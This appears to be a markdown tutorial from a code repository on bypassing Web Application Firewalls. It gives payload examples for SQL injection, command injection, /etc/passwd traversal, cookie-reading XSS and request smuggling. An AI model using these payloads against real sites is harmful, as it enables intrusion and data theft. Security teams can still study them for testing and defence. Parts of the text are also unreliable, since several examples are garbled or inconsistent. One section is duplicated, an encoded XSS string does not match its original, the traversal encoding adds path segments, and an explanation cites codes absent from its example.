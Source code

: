 ## **WAF(Web Application Firewall):-** 
**Description:**
> A WAF inspects incoming web traffic to detect and filter out potentially malicious requests or payloads. It analyzes both the request (input) and response (output) of web applications.
>
>It is a security solution designed to protect web applications from various attacks, such as cross-site scripting (XSS), SQL injection, cross-site request forgery (CSRF), and other vulnerabilities that can be exploited over HTTP and HTTPS protocols.


**Deployment Options:**

>**Cloud-based:** WAF Provided as a service by cloud providers to protect web applications hosted in the cloud.
>
>**Network based WAF:** Deployed on-premises within an organization's network infrastructure to protect web applications hosted internally.
>
>**Host-based WAF:** Installed on individual web servers or application servers to protect specific applications or services.

**Benefits of Using a WAF:**

>**Enhanced Security:** Protects web applications from a wide range of attacks and vulnerabilities.
>
>**Regulatory Compliance:** Helps organizations comply with security and privacy regulations that require protection of web applications.
>
>**Reduced Risk of Data Breaches:** Mitigates the risk of data breaches and unauthorized access to sensitive information.

### **Here are some WAF Bypass Techniques:**

#### **1. Input Manipulation Techniques**

- **Obfuscation:** Obfuscation involves encoding or altering payloads to evade detection by signature-based filters.

  **Payload Example:** SQL Injection using URL encoding
    ```
    Original: ' OR 1=1 --
    Encoded: %27%20OR%201%3D1%20--
**Explanation:** The single quote (') is URL encoded as %27, space as %20, and equals (=) as %3D. This obfuscated payload might evade simple WAF filters looking for exact SQL injection patterns.

- **Concatenation:** Concatenation involves breaking up payloads or injecting additional characters to bypass filters.

     **Payload Example:** Command Injection using parameter splitting
     ```
     Original: ; ls /
    Split: ;%0als%20/
>**Explanation:** This technique injects a newline character (%0a) and space (%20) to split the command ls /, which might evade filters looking for specific command injection patterns.

- **Case Sensitivity:** Case sensitivity involves using mixed cases or alternative spellings to bypass case-sensitive filters.

     **Payload Example:** SQL Injection with lowercase
    ``` 
    Original: UNION SELECT username, password FROM users --
    Alternative: unION seLEct username, password from users --

> **Explanation:** By using different case combinations (UNION, unION, seLEct, from), this payload attempts to bypass filters that are case-sensitive.

- **Hexadecimal or Unicode Encoding:** Hexadecimal or Unicode encoding represents characters in different formats to evade character-based filters.

    **Payload Example:** Directory traversal using double URL encoding
    ```
    Original: /etc/passwd
    Double encoded: %252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

> **Explanation:** Characters like / (%2f) and . (%2e) are double URL encoded to %252f and %252e, which might bypass filters expecting single URL encoding.

#### **2. HTTP Protocol Violations**
- **Overlong UTF-8 Encoding:-** Overlong UTF-8 encoding uses excessively long sequences to bypass filters expecting standard UTF-8 encoding.

    **Payload Example:** SQL Injection with overlong UTF-8 encoding
    ```
    Original: ' OR 1=1 --
    Encoded with overlong UTF-8: %C0%27%20OR%201%3D1%20--
    ```
> **Explanation:** The %C0%27 sequence represents an overlong UTF-8 encoding of ', which might evade filters that check for standard UTF-8 sequences.

- **Overlong URL Encoding:-** Overlong URL encoding involves encoding characters multiple times to bypass URL decoding filters.

    **Payload Example:** XSS payload with overlong URL encoding
    ```
    Original: <script>alert(1)</script>
    Double encoded: %253C%252Fscr%2525%32Ft%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
    ---
    **Overlong URL Encoding:-** Overlong URL encoding involves encoding characters multiple times to bypass URL decoding filters.

    **Payload Example:** XSS payload with overlong URL encoding
    ```
    Original: <script>alert(1)</script>
    Double encoded: %253C%252Fscr%2525%32Ft%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

- **Double Encoding:-** Double encoding involves encoding special characters twice to bypass filters expecting single encoding.

    **Payload Example:-** SQL Injection with double URL encoding
    ```
    Original: .php?id=1
    Double encoded: .php%253fid%253d1
 
 > **Explanation:** Characters like . (%2e) and ? (%3f) are double URL encoded (%252e, %253f), which might bypass filters expecting single URL encoding.

### Request Smuggling 
- **Content-Length Discrepancy:-** Content-Length discrepancy exploits inconsistencies in Content-Length headers to confuse WAFs.

**Payload Example:** Exploiting Content-Length header discrepancy
```
POST /login HTTP/1.1
Host: example.com
Content-Length: 10

username=admin&password=pass
```
> **Explanation:** The Content-Length header claims 10 bytes, but the actual payload is longer (username=admin&password=pass), which might confuse WAFs relying on Content-Length for request validation.

- **Chunked Transfer Encoding:-** Chunked Transfer Encoding manipulates chunked encoding to evade WAF filters.

    **Payload Example:** Manipulating chunked encoding
    ```
    POST /upload HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked

    4
    data
    0
    ```
> **Explanation: T**he payload uses chunked encoding with an ambiguous boundary (0 after data), which might bypass filters expecting a specific chunked encoding structure.

#### Bypassing JavaScript Filters 
- **Event Handler Manipulation:-** Event handler manipulation bypasses filters blocking specific JavaScript event handlers.

**Payload Example:** Bypassing onmouseover filter
```
Original: <img src="x" onmouseover=alert(1)>
Modified: <img src="x" onmoUSeover=alert(1)>
```
> **Explanation:-** The onmouseover event handler is modified with mixed cases (onmoUSeover) to evade filters expecting exact event handler names.

- **DOM-based XSS:-** DOM-based XSS uses client-side techniques to bypass server-side WAF rules.

    **Payload Example:** Exploiting DOM-based XSS
    ```
    Original: <script>alert(document.cookie)</script>
    Modified: <img src="notexist" onerror="document.write('<script>alert(document.cookie)</scr'+'ipt>');">

> **Explanation:** The payload injects JavaScript through onerror attribute, using string concatenation (+'ipt>') to evade WAF filters expecting direct script tags.



















